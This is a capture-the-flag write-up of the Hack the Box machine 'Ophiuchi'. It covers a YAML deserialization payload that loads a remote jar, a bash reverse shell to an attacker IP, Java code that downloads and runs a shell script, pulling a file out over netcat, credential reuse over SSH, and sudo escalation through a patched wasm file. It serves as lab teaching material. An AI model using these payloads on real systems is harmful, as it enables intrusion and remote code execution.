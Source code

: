 +++
author = "Nick"
categories = ["hack the box", "medium", "golang", "wasm", "YAML", "PHP Deserialization"]
date = 2021-07-03T15:00:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2021/06/opi.png"
slug = "hack-the-box-ophiuchi"
summary = "Welcome back everyone! Today's write-up is for the Hack the Box machine - Ophiuchi. This is listed as a medium Linux machine. Let's get to it! "
tags = ["hack the box", "medium", "golang", "wasm", "YAML", "PHP Deserialization"]
title = "Hack the Box - Ophiuchi"

+++


Welcome back everyone! Today's write-up is for the Hack the Box machine - Ophiuchi. This is listed as a medium Linux machine. Let's get to it!

As usual, we kick it off with an nmap scan. Here are our results:

```
Nmap scan report for 10.10.10.227
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6d:fc:68:e2:da:5e:80:df:bc:d0:45:f5:29:db:04:ee (RSA)
|   256 7a:c9:83:7e:13:cb:c3:f9:59:1e:53:21:ab:19:76:ab (ECDSA)
|_  256 17:6b:c3:a8:fc:5d:36:08:a1:40:89:d2:f4:0a:c6:46 (ED25519)
8080/tcp open  http    Apache Tomcat 9.0.38
|_http-title: Parse YAML
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Well, we don't have many options at first glance, let's take a look at what's on 8080. When we load the page, we are greeted with a YAML parser.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-47.png" >}}

When we try to use the function, it tells us that the function has been shutdown due to security reasons. Broken YAML parsing is a pretty [well documented](https://www.google.com/search?q=online+yaml+parser+exploit&oq=online+yaml+parser+exploit&aqs=chrome..69i57.4172j0j1&sourceid=chrome&ie=UTF-8) exploit. Even though the site is telling us it's disabled the functionality, we can still test this by setting up a listener with `netcat` or `SimpleHTTPServer` and trying to catch an incoming request.

Heres our PoC code:
```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.101/"]
  ]]
]
```

Now we can just setup a listener.

Command:
`nc -lvnp 80`

We enter our code into the parser and check our lisener.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-48.png" >}}

Sure enough, we have a call back. Now we can work to weaponize it. [This repo](https://github.com/artsploit/yaml-payload) in particular helps us do that quite nicely. First we'll clone the repo.

Command:
`git clone https://github.com/artsploit/yaml-payload`

Now we have to put our reverse shell code into the `AwesomeScriptEngineFactory.java` file. In this case, I used the basic `Bash` shell:

`bash -i >& /dev/tcp/10.10.14.101/6969 0>&1`

Now we just need to compile it into a `.jar` and call it from the YAML parser.

Command:
```
cd yaml-payload
javac src/artsploit/AwesomeScriptEngineFactory.java
jar -cvf yaml-payload.jar -C src/ .
```
Now we can host the file with `SimpleHTTPServer`.

Command:
`python -m SimpleHTTPServer`

Next, we spin up a `netcat` listener on port 6969 to catch the incoming connection.

Command:
`nc -lvnp 6969`

Now that we've done all the steps as per the Git repo, we can put our malicious YAML into the parser and see if it send us a shell back. Our total payload looks like this:

```yaml
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.101/yaml-payload.jar"]
  ]]
]
```

We see the `.jar` file being called, but we're not catching a shell. There could be a few reasons why we're not getting one. One of the easiest things to test is if our raw bash command isn't being executed. So to test this we'll just put our command into a small shell script, and have the server download and execute the script.

{{< figure src="__GHOST_URL__/content/images/2021/06/opi_shell.gif" >}}

That methodology worked! So the code we ended up using inside our `.java` was:

```java
public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("curl 10.10.14.101/s.sh -o /tmp/s.sh");
            // not this: Runtime.getRuntime().exec("curl 10.10.14.101/s.sh -o /tmp/s.sh && bash /tmp/s.sh");
            Runtime.getRuntime().exec("bash /tmp/s.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
```

Now that we have a foothold, we can start enumerating in order to escalate. We don't have the ability to run scripts, so `linpeas.sh` was out. After a grueling amount of time parsing this incredibly unstable machine by hand, we find some creds in the default `tomcat-user` file.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-49.png" >}}

Great, now we have a user `admin` and the password `whythereisalimit`. Now we can try to use these credentials to `SSH` into the machine.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-50.png" >}}

We are able to re-use those credentials and log in! We snag our `user.txt` file and start enumerating for a path to root. We check our `sudo -l` options and we have an item listed.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-51.png" >}}

We have this `index.go` file listed.

{{< figure src="__GHOST_URL__/content/images/2021/06/image-52.png" >}}

We see something right off the bat, the path for `deploy.sh` is not tight, meaning we can have it call any script called deploy.sh. The catch here is that we can only execute this portion of the code if the value of `f` is equal to `1`. The application is reading the `main.wasm` file and checking the values. We need to modify this file in order to make `f` equal `1`. In order to do that, we need to take the `main.wasm` file and convert it to a `.wat` file. This is essentially the instructions for the interactions of the library. First, let's download the `main.wasm` file to our system.

Command:
`cat main.wasm | nc 10.10.14.101 6969`

Now we cat it on our system.

Command:
`nc -lvnp 6969 > main.wasm`

With that file on our machine, we need to convert it to a `.wat`. There some good information on this process [here](https://developer.mozilla.org/en-US/docs/WebAssembly/Text_format_to_wasm). We can leverage the tool listed from the Github to convert the file.

Commands:
`wget https://github.com/WebAssembly/wabt/releases/download/1.0.23/wabt-1.0.23-ubuntu.tar.gz`
`gunzip -v wabt-1.0.23-ubuntu.tar.gz`
`tar -xf wabt-1.0.23-ubuntu.tar`

Now with the toolset decompressed, we can run `main.wasm` file through to convert it after we copy it to our working directory of choice.

Command:
`./wasm2wat main.wasm -o main.wat`

{{< figure src="__GHOST_URL__/content/images/2021/06/image-53.png" >}}

We see the output of the function. On the second line is the `$info` instance, we see that it has an `int 32` value of `0`, we need to change this to `1`. I use `nano` most often.

Command:
`nano main.wat`

{{< figure src="__GHOST_URL__/content/images/2021/06/image-54.png" >}}

With that value changed, we need to convert the file back to a `.wasm`.

Command:
`mv main.wasm main.wasm.bak`
`wat2wasm main.wat -o main.wasm`

Now, with our new `main.wasm` file, we need to put it back on the target server. In this case, I just hosted the file via `SimpleHTTPServer` and used `wget` to bring it down to a directory under `/tmp`.

We can now create a `deploy.sh` script in our working directory on the server. Inside the script should be the commands we want to run as `root`. To test the idea, we can simply echo the user with `echo $(id)`. Here's our script

```bash
#!/bin/bash
echo $(id)
```

Then we call the files with `sudo`.

Command:
`sudo -u root /usr/bin/go run /opt/wasm-functions/index.go`

{{< figure src="__GHOST_URL__/content/images/2021/06/image-55.png" >}}

Perfect, now we can cat out the contents of the `root.txt` flag!

{{< figure src="__GHOST_URL__/content/images/2021/06/image-56.png" >}}

Now, you could do something more persistant here. Copying over your `SSH` key, creating another shell or anything else really.

If this write-up was helpful, send some respect my way: https://app.hackthebox.eu/profile/95635



